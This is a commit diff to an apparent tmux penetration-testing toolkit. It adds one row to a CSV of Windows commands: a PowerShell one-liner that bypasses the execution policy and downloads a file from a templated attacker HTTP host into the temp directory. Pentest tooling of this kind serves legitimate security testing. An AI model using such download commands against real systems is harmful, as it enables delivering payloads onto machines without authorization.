

Before and after one commit to mfulz/tmux-penmux, a CSV file: modules/auxiliary/comm/httpexchange/commands/windows.csv, drawn as a sheet; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Improvements
- Changed windows temp for PS to $env:TEMP

```diff
--- a/modules/auxiliary/comm/httpexchange/commands/windows.csv
+++ b/modules/auxiliary/comm/httpexchange/commands/windows.csv
+row 3: psIwrTemp | Download file using powershell webrequest into temp dir | powershell -nop -ep bypass iwr -outfile $env:TEMP/$$fileName$$ -uri http://###HttpHost###:###HttpPort###/$$file$$
```
Also changed, not shown: 1 other file.
